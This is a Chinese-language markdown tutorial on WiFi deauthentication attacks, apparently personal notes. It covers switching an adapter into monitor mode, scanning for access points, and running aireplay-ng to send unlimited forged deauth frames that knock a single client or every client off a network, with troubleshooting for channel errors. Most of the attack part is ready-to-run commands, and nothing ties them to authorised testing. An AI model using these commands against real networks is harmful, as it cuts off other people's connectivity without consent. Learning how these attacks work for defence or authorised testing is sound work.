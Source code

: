 # 解除WiFi认证(断开连接)攻击 Deauthentication
## Deauthentication
* ```
    Deauthentication（断开连接）是一种无线网络管理帧（Management Frame）的类型，
    用于通知客户端设备断开与 接入点 的连接。它是IEEE 802.11(数据包类型)标准中定义的一种帧类型。

## Deauthentication Attck 原理
* 发送伪造的 断开连接数据包 给client。
## 前提
* 需要带有监听功能的wifi适配器
* 确认你的无线网卡支持监控模式（monitor mode）和数据包注入（packet injection）。
* ```
    # 关闭wifi
    sudo ifconfig wlan0 down
    # 切换为监听模式
    sudo iw wlan0 set monitor none

    # iwconfig 查看是否为监听模式
    

## aireplay-ng工具
* aireplay-ng 是一款强大的网络攻击工具，用于`无线网络`的安全测试和攻击。
* ```
    # 扫描wifi网络得到BSSID,ESSID
    sudo rfkill unblock wifi
    sudo ifconfig wlan0 up  
    sudo iwlist wlan0 scan | grep -i 'cell\|bssid\|essid'

    # 注意 bssid是唯一标识符(可以是mac)，essid是wifi网络的名称
* ```
    # 扫描附近的无线网络(同上)
    sudo aireplay-ng -9 wlan0
    # 或者
    sudo airodump-ng wlan0
* ```
    # 发起断开连接攻击
    # --deauth 0表示发起无限个包
    # -c 可用逗号分隔开多个mac值，对多个设备进行断开wifi
    sudo aireplay-ng --deauth 0 -a <目标BSSID> -c <目标客户端MAC地址> wlan0
* ```
    # 断开所有设备wifi
    sudo aireplay-ng --deauth 0 -a <目标BSSID> wlan0

## 弊端
```
    # 对于5G 频段的路由器效果不佳。
```

## 报错
* ```
    # wrong info: wlx0092c38a9764 is on channel 1, but the AP uses channel 7
    # 在进行攻击时，需要保持在统一信道(连wifi也一样)

    # 查看wifi适配器当前处于的信道
    sudo iw wlan0 info

    # 设置信道
    sudo iwconfig wlan0 channel 7
    # or
    sudo iw wlan0 set channel 9

* ```
    # wrong info: Waiting for beacon frame (BSSID: 04:95:E6:51:64:A1) on channel 7 ,No such BSSID available.
    # 当进行长时间攻击(20~min)时，路由器会自动更换信道进行通信。
    # 查看当前wifi信道并切换



* ```
    # 报错 ioctl(SIOCSIFFLAGS) failed: Operation not possible due to RF-kill

    # 使用命令
    sudo rfkill unblock wifi

